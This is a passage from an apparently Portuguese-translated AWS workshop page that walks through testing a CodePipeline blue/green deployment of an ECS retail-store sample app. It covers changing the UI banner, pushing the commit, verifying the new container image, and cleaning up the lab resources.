CodePipeline</a> novamente e observe que o estágio de implantação foi
adicionado ao pipeline de CI/CD.



Pipeline de teste

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green/400-test#check-web-application"><strong>Verifique
o aplicativo da Web</strong></a>

Cole o URL em um navegador da Web para acessar o aplicativo e
verifique o título do aplicativo da Web que vamos alterar.

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB}:8080 ; echo

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green/400-test#deploy-changes"><strong>Implementar
alterações</strong></a>

Agora, vamos executar o pipeline de CI/CD criado para realizar uma
implantação contínua. Execute o seguinte comando para editar o banner
principal da interface do usuário na linha 24:

cd
~/environment/retail-store-sample-codecommit/src/ui/src/main/resources/templates/fragments

sed -i 's|&lt;a class="navbar-brand" href="/home"&gt;Retail Store
Sample&lt;/a&gt;|&lt;a class="navbar-brand" href="/home"&gt;Retail Store
Sample CodePipeline&lt;/a&gt;|g' layout.html

Verifique se as alterações foram aplicadas com sucesso executando o
seguinte comando.

cat layout.html | grep CodePipeline

Faça o commit das alterações no repositório do CodeCommit.

git add .

git commit -m "alterar o banner da interface do usuário"

git push

Navegue até o console do <a
href="https://us-west-2.console.aws.amazon.com/codesuite/codepipeline/pipelines/ecs-immersion-day-retail-store-sample/view?region=us-west-2">AWS
CodePipeline</a> e clique em <strong>View Details (Exibir
detalhes</strong>) do estágio de implantação assim que ele for
iniciado.

Pode levar alguns segundos para que o pipeline seja iniciado.

Clique na <strong>ID de implantação</strong> em
<strong>Mensagem</strong> e monitore a implantação Canary do Serviço
ECS.



<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green/400-test#check-web-application&#39;s-change"><strong>Verificar
a alteração do aplicativo da Web</strong></a>

Você pode confirmar que o novo serviço está executando a versão mais
recente da sua imagem de contêiner de interface do usuário recuperando o
valor do AWS Systems Manager Parameter Store e comparando-o com o campo
de imagem na definição de tarefa da saída do describe-service.

last_build=$(aws ssm get-parameter --name
"/codebuild/retail-store-sample-ui-latest-image" --query
'Parameter.Value' --output text)

ui_task_definition=$(aws ecs describe-services --cluster
retail-store-ecs-cluster --services retail-store-ui-bg --query
"services[0].taskDefinition" --output text)

echo -e "imagem do contêiner atual: $(aws ecs
describe-task-definition --task-definition ${ui_task_definition} --query
"taskDefinition.containerDefinitions[0].image" --output text) \n latest build: ${last_build}"

Ao acessar o endpoint obtido com o comando abaixo, você pode
verificar que o título do serviço de interface do usuário foi alterado
para <strong>Retail Store Sample CodePipeline</strong>.

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB}:8080 ; echo

Parabéns! Com este laboratório, você criou um pipeline de CI/CD e
implantou um novo serviço do ECS usando a implantação Blue/Green .

Limpeza

Remova o pipeline de CI/CD.

cd /home/ec2-user/environment/labs/blue-green

terraform destroy

Exclua o arquivo de código-fonte.

cd /home/ec2-user/environment/

rm -rf retail-store-sample-app/

rm -rf retail-store-sample-codecommit/

Remova o serviço ECS criado para a implementação blue/green.

aws ecs delete-service --cluster retail-store-ecs-cluster --service
retail-store-ui-bg --force

</body>
</html>